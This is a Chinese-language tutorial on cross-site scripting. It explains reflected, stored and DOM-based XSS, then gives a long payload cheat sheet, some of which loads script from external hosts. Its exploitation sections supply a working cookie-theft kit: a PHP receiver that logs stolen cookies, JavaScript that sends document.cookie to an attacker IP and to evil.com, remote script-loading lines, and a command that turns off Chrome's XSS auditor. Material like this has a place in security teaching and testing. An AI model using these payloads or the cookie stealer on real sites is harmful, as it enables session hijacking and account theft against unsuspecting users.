







## 1、什么是xss漏洞

XSS攻击全称跨站脚本攻击，是为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS，XSS是一种在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到web网站里面，供给其它用户访问，当用户访问到有恶意代码的网页就会产生xss攻击。

## 2、XSS攻击的危害包括

1、盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

2、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

3、盗窃企业重要的具有商业价值的资料

4、非法转账

5、强制发送电子邮件

6、网站挂马

7、控制受害者机器向其它网站发起攻击

## 3、xss漏洞的类型

### 反射型

反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码

 

```http
http://target_sys.com/xss/xss01.php?name=<script>alert(/xss/)</script>
```

 

### 存储型

存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。

 

```http
http://target_sys.com/xss/xss02.php
```



```php
<SCRIPT>alert(document.cookie)</SCRIPT>
```

### dom型

DOM，全称Document Object Model，是一个平台和语言都中立的接口，可以使程序和脚本能够动态访问和更新文档的内容、结构以及样式。

DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。

在网站页面中有许多页面的元素，当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。

document.referer属性
window.name属性
location属性
innerHTML属性
documen.write属性

默认火狐不能执行dom xss,因为火狐会把url的字符串进行编码,ie默认不编码,但是要关闭xss过滤器

```http
http://target_sys.com/xss/xss03.php?name=<script>alert(/xss/);</script>
```

 

## 4、测试XSS

```html
<h5>1</h5>

<SCRIPT>alert(document.cookie)</SCRIPT>


```

其他测试语句

```html
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'>

>"'><script>alert('XSS')</script>

<table background='javascript.:alert(([code])'></table>

<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"

'><script>alert(document.cookie)</script>

='><script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>

<s&#99;ript>alert('XSS')</script>


%0a%0a<script>alert(\"Vulnerable\")</script>.jsp

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

<script>alert('Vulnerable')</script> 

a.jsp/<script>alert('Vulnerable')</script>

"><script>alert('Vulnerable')</script>


"";'>out


<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>


<BGSOUND SRC="javascript.:alert('XSS');">

<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>

<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">


<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">

<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>

<TABLE BACKGROUND="javascript.:alert('XSS')">

<DIV STYLE="background-image: url(javascript.:alert('XSS'))">

<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>


<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">

getURL("javascript.:alert('XSS')")

a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">

"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"

<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```

## 5、XSS利用

**盗取COOKIE**

接收cookie代码

xss.php

```php
<?php
    @ini_set('display_errors',1);
    $str = $_GET['joke'];
    $filePath = "joke.php";
	$handler = fopen($filePath, "a");
    fwrite($handler, $str);
    fclose($handler);
?>
```

xss.js

```php
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://192.168.31.125/xss.php?joke='+encodeURIComponent(document.cookie);
```

 xss.js

```php
var img=document.createElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```

## 6、加载payload

```php
<script src="http://192.168.31.125/xss.js"></script>

<script src="//192.168.31.125/xss.js "></script>


<script>var img=document.createElement("img");img.src="http://10.10.10.151:1234/a?"+escape(document.cookie);</script> 
```

 

## 7、关闭浏览器XSS机制

chrome的关闭方法：

我的chrome安装目录在C:\Program Files (x86)\Google\Chrome\Application\chrome.exe，关闭方法是在命令行输入以下命令：

```http
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --args --disable-xss-auditor
```

ie和firefox的关闭方法在如下链接：

http://www.phillips321.co.uk/2012/03/01/xss-browser-filters-disabling-it-for-app-testing/

 